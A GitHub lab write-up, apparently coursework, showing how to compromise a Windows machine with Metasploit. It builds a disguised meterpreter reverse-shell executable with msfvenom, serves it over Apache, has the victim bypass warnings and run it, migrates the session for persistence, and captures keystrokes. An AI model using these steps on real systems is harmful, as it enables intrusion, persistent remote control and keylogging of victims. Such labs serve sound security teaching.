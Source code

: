 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:
Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/c5788c06-bf76-470a-b73a-f7e961243721)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/d8de3282-877c-43cd-9201-86b279836d15)
copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/765d78c2-7688-42f9-b83e-a26d3953adb4)

Start apache server sudo systemctl apache2 start

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/b8a353bb-25df-4f0c-8e2f-bd8f3be7848e)

Check the status of apache2

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/6ed4c9fe-0d72-4675-99f9-4c73172afa48)

Invoke msfconsole:
![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/0ec2a519-5033-407d-8d13-0b86e2ad49d2)

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/fffcba32-6dfc-4dc7-97fc-14bc4551cc93)
exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/60b8627e-5e6a-4050-a50f-4ae1c92dd98f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/6fd42cbd-3af4-4a9f-9d00-bc3540f8fa53)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/3295062d-fc87-4918-945e-eb2a205ba895)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/59e9137f-68c6-4910-9bfc-849970954b34)


keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/MARXINLIJO/Compromising-windows-using-Metasploit/assets/145742540/666ad419-9876-421b-b9d2-28a10f0189d5)
## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
